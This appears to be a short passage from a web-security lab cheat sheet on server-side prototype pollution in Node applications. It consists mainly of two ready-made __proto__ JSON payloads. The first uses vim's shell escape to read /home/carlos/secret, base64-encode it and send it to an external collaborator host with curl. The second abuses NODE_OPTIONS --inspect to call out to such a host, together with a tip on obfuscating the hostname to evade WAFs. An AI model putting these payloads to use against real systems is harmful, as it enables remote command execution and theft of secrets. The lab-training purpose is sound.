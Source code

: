 ```json
"__proto__": {
    "shell":"vim",
    "input":":! cat /home/carlos/secret | base64 | curl -d @- https://YOUR-COLLABORATOR-ID.oastify.com\n"
}
```

<br>

* "The escaped double-quotes in the hostname aren't strictly necessary. However, this can help to reduce false positives by obfuscating the hostname to evade WAFs and other systems that scrape for hostnames."

```json
"__proto__": {
    "shell":"node",
    "NODE_OPTIONS":"--inspect=YOUR-COLLABORATOR-ID.oastify.com\"\".oastify\"\".com"
}
```

<br><br><br>

### Pending to complete labs that are missing from cheat sheet:

* All labs in this category are completed and referenced in cheat sheet or attached document.
